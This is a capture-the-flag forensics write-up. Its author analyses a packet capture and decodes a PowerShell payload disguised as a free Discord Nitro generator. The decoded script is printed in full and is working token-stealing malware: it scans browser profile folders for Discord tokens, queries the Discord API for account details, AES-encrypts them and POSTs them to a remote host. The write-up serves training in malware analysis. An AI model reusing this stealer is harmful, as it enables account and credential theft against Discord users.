

# Forensics - Fake Boost

## Description
> In the shadow of The Fray, a new test called "Fake Boost" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

<br>
<br>

## Walkthrough

In this challenge we were given a `.pcap` file.

I opened the file in Wireshark.


The file contains a total of `20405` recorded packets.

First, I found something interesting when I filtered for HTTP traffic.


In package `No. 15422` I found a HTTP-POST package with base64 encoded data.


I extracted this and when I tried to decode it, all I got was gibberish.

With packet `No. 328` I found a second interesting thing.


Powershell code obviously.


I extracted this as well and decoded the base64 encoded string which lands in the variable `$jozeq3n` by using the powershell on linux `pwsh`.

```powershell
$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {

            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}

function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}

function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

Write-Host "
______              ______ _                       _   _   _ _ _               _____  _____  _____   ___
|  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
| |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
|  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
| | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
\_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/

                                                                                                         "
Write-Host "Generating Discord nitro keys! Please be patient..."

$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}

$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}

Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

So here we now have a Powershell script.

We have the first part of the flag in the variable `$part1` in base encoded form: `HTB{fr33_N17r0G3n_3xp053d!_`

The following code section shows us that the other part is probably AES encrypted.


```powershell
function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}
```

And we also have the AES key: `$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="`.

So I use that [online tool](https://www.devglan.com/online-tools/aes-encryption-decryption) to decrypt the AES data and I decode the output via cyberchef.

__AES Decryption:__


__Base64 Decode:__


The second part of the flag was then the base64 decoded value of the `Email:` field.



__Flag:__ `HTB{fr33_N17r0G3n_3xp053d!_b3W4r3_0f_T00_g00d_2_b3_7ru3_0ff3r5`


